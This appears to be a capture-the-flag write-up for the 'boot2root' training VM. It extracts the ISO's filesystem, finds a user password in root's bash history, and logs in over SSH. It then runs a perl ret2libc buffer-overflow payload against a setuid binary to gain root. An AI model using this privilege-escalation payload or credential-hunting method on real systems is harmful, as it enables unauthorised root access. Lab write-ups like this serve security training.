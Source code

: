 # ISO file exploration

## Step 1. Mount ISO file
Since we are given an ISO file to exploit, we can just mount it to see what's inside there.
```shell
┌──(kali㉿kali)-[~/boot2root]
└─$ sudo mkdir /mnt/iso
┌──(kali㉿kali)-[~/boot2root]
└─$ sudo mount BornToSecHackMe-v1.1.iso /mnt/iso
mount: /mnt/iso: WARNING: source write-protected, mounted read-only.
```

## Step 2. Extract filesystem
```shell
┌──(kali㉿kali)-[~/boot2root]
└─$ sudo unsquashfs -d ./fs /mnt/iso/casper/filesystem.squashfs
Parallel unsquashfs: Using 2 processors
61188 inodes (56421 blocks) to write

[===========================================================================/] 56421/56421 100%

created 54391 files
created 8445 directories
created 6743 symlinks
created 2 devices
created 2 fifos
created 28 sockets

┌──(kali㉿kali)-[~/boot2root]
└─$ sudo chown -R kali:kali fs
```
After mounting the ISO file, we found a file `filesystem.squashfs` which is a compressed read-only file system for Linux.</br> 
[`unsquashfs`](https://manpages.debian.org/testing/squashfs-tools/unsquashfs.1.en.html) command can be used to extract the whole filesystem.

## Step 3. Explore filesystem
```shell
┌──(kali㉿kali)-[~/boot2root/fs/root]
└─$ grep -A 1 adduser .bash_history
[...]
adduser zaz
646da671ca01bb5d84dbb5fb2238dc8e
[...]
```
Now we can access all the files of the system including files in the `/root`. By inspecting `.bash_history` of root user, we found that root user accidentally typed zaz's password twice while executing `adduser`.

## Step 4. SSH zaz
With the SSH password of `zaz`, we can exploit the system just like the final step of [writeup1](https://github.com/4slan/boot2root/blob/main/writeup1.md#ssh-zaz---bofret2libc).
```shell
zaz@BornToSecHackMe:~$ ./exploit_me `perl -e 'print "A"x140 . pack("V", 0xb7e6b060) . pack("V", 0xb7e5ebe0) . pack("V", 0xb7f8cc58)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X��
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# whoami
root
```
